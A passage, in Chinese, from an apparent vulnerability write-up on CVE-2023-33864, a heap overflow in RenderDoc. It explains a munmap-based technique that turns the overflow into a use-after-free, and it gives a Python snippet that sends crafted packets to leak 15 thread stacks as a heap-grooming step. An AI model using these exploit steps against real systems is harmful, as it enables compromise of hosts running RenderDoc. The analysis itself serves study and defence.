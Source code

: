 利用堆溢出可以覆盖相邻堆块的 prev_size 字段和 size 字段，运用 [House-of-Muney-Heap-Exploitation](http://tukan.farm/2016/07/27/munmap-madness/) 思路构造任意地址 munmap，把堆溢出转化成 UAF。

1. 当 librenderdoc.so 的 TCP 线程创建时，glibc 会 mmap 出一个64MB的空间作为线程的堆，堆区域到其他库文件的映射区域之间存在一片未使用的虚拟内存区域，这片未使用的内存区域被称为GAP。
    
    若 TCP 线程又创建其他线程，子线程的栈区域就从 libraries 边界开始，向低地址方向寻找未使用的内存区域进行开辟。首当其冲的就是 TCP 线程堆到 libraries 映射区域之间的 GAP 区域。
    

```
   0                                       64M
----V----------------------------------------V--------------|-------------
    |          server thread's heap          |  random gap  |  libraries
----|----------------------------------------|--------------|-------------
```

![截屏2025-05-27 15.33.02.png](/assets/posts/2025-05-27-CVE-2023-33864-RenderDoc堆溢出漏洞分析/%E6%88%AA%E5%B1%8F2025-05-27_15.33.02.png)

1. 连续创建/退出 15个 client 调试线程，每个线程都会在当前进程的地址空间分配 8MB + 4KB 的栈空间。这么做的目的是通过内存泄漏把 GAP 消耗殆尽， 起到定位 victim stack 的作用，具体在第 4 步中介绍。
    
    能这么做的是因为程序在处理 client 主动退出的情况时，没有调用 pthread_join 回收栈空间，导致了内存泄漏。
    

```python
for i in range(15):
        sleep(1)
        s = socket(AF_INET, SOCK_STREAM)
        s.connect((ip, port))
        packet = p32(0x2) + p32(0) + p32(9) + p32(0x5) + f'root{i}'.encode() + p32(0) + b'a'*0x40
        s.sendall(packet)
        s.close()
        print(f'thread stack leak {i}')
```
